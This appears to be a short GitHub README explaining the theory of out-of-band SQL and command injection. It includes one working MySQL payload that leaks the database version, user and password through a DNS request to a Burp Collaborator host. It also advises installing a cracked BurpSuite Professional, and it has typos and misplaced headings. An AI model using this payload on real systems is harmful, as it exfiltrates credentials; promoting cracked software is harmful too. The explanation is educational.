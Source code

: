 <h1 align="Center">Out-of-band Injection Theory</h1>

### OOB injection is an exploitation to exfiltrate data and information through different outbond channel

## Traditional Injection Technique (In-Band)


![Web Archi](../photo/inband.png)

#### eg SQL Databse Query to make DNS request

```
select
load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',
(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollabo
rator.net\\vfw'))
```


<br>

## OOB Injection



![Web Archi](../photo/oob.png)

# How to get listening server
	1. Install BurpSuite Professional (Crack)
	2. Use Bure Collaborator Client 
	4. DNS request to listening Server
	3. Collect captured info


## Formuala

### For Command Injection

`𝑂𝑂𝐵 Commandinjection = 𝐹𝑖. (system 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`

where,

<pre>
Fi     = function that initiates outbound request<br>
FQDN   = domain name of the listening server (Burpcollaborator domain name)
</pre>

### For Sql Injection

`𝑂𝑂𝐵 𝑆𝑄𝐿𝑖 = 𝐹𝑖. (𝑆𝑄𝐿 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`


<pre>
Fi     = function that initiates outbound request<br>
FQDN   = domain name of the listening server (Burpcollaborator domain name)
</pre>


#### References
A Study of Out-of-Band Structured Query Language Injection by Lee Chun How  (doi: 10.5281/zenodo.3556347)

